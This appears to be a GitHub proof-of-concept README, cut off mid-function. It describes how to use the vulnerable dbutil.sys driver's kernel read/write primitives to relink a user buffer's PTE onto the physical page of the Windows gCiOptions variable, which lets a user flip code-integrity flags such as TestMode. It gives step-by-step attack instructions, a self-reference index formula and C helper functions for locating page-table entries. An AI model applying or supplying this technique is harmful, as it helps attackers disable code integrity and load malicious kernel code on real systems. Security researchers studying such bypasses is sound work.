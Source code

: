 
# Proof of Concept (PoC)

This PoC demonstrates using page-walking and **PFN relinking** to alias a user-controlled 4 KiB buffer to the physical page that contains a kernel global variable `gCiOptions` (the variable used by code integrity to determine TestMode / Trusted state).

> **Important:** the PoC described here uses a known vulnerable driver (`dbutil.sys` 2.3) to obtain kernel virtual read/write primitives.

## High level steps

1. Resolve the virtual address of the kernel symbol `gCiOptions` (e.g. by parsing PDB or symbol store and adding the module base).
2. Use a kernel memory primitive to read the PTEs that map `gCiOptions` (or use self‑referencing page table trick to form virtual addresses to the entries).
3. Compute the PFN of the `gCiOptions` page from its PTE.
4. Allocate a 4 KiB user-mode buffer and read its PTE.
5. Replace the PFN in the user-mode buffer's PTE with the PFN of the `gCiOptions` page (preserve flags). This aliases the user buffer to the kernel page.
6. Write into the user buffer (now mapped to the kernel page) at the offset of `gCiOptions` to flip flags (e.g. to enable TestMode).
7. Restore the original PTE content so the system continues to function.

## Why self-referencing helps

Windows (and other OSes) can expose a self-referencing PML4 entry. The kernel function `MiGetPteAddress` exposes a `PteBase` which can be used to derive a *self-ref index*. That index allows building canonical virtual addresses that directly reference the page table pages themselves (PML4/PDPTE/PDE/PTE), making it possible to read and write PTEs using virtual memory primitives rather than physical ones.

Given `PteBase`, the self-ref index is computed as:

```
SelfRefIndex = (PteBase >> 39) & 0x1FF
```

Using the self-ref index we can craft virtual addresses that index into the relevant page table pages.

---

# Useful helper functions (C-like)

```c
static inline uint64_t Canonicalize(uint64_t x) {
    // sign-extend bit 47 into bits 48..63
    if (x & (1ULL << 47)) x |= 0xFFFF000000000000ULL;
    return x;
}

ULONG64 GetVAToPML4eVA(ULONG64 vaddr, ULONG64 selfRef) {
    ULONG64 PML4i = (vaddr >> 39) & 0x1FF;
    ULONG64 va = (selfRef << 39) | (selfRef << 30) | (selfRef << 21) | (PML4i << 3);
    // <<3 because each PML4 entry = 8 bytes
    return Canonicalize(va);
}

ULONG64 GetVAToPDPTeVA(ULONG64 vaddr, ULONG64 selfRef) {
    ULONG64 PML4i = (vaddr >> 39) & 0x1FF;
    ULONG64 PDPTi = (vaddr >> 30) & 0x1FF;
    ULONG64 va = (selfRef << 39) | (selfRef << 30) | (selfRef << 21) | (PML4i << 12) | (PDPTi << 3);
```